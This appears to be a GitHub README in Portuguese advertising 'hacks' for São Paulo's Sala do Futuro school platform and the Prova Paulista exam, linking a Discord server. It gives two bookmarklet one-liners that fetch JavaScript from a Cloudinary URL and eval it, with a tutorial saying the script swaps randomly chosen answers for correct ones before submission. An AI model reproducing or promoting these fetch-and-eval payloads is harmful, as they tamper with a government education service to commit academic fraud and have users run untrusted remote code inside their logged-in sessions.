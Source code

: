 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### HCK - TAREFAS:
### TUTORIAL:
1. Execute o script antes de efetuar o login no [Sala do Futuro](https://saladofuturo.educacao.sp.gov.br/login-alunos)
2. Depois de efetuado, deve ir até a tarefa que você quer fazer
3. Responda aleatoriamente às questões e envie
4. O script irá colocar todas às respostas corretas.

*Obs: Funciona até você não recarregar á página, depois disso terá que fazer o processo novamente.*

```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745790408/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### [Discord: Hackermoon](https://discord.gg/k5BFyvbj)
